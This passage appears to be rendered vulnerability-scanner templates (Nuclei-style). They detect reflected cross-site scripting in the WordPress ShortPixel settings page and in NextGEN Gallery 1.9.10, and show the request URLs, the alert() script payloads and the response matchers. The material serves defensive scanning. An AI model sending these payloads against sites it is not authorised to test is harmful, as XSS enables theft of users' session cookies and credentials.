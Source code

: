 ### Step - 2

```
GET /wp-admin/options-general.php?page=wp-shortpixel-settings&"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. &\">\<script>alert(1)\</script>&noheader=true&sp-action

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress NextGEN Gallery 1.9.10 - Cross-Site Scripting

## Description

- WordPress NextGEN Gallery 1.9.10 plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wp-plugin,edb,wordpress,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/nextgen-gallery/nggallery.php?test-head=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**
